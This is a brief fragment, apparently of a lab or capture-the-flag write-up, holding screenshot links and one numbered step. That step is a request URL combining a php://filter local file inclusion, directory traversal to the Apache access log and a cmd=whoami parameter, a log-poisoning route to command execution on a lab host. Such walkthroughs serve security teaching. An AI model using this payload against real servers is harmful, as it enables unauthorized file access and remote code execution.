 ![](images/2020-08-24-21-07-47.png)

2. http://10.10.90.100/?view=php://filter/resource=./dog/../.././../../../var/log/apache2/access.log?cmd=whoami&ext

![](images/2020-08-24-21-23-09.png)
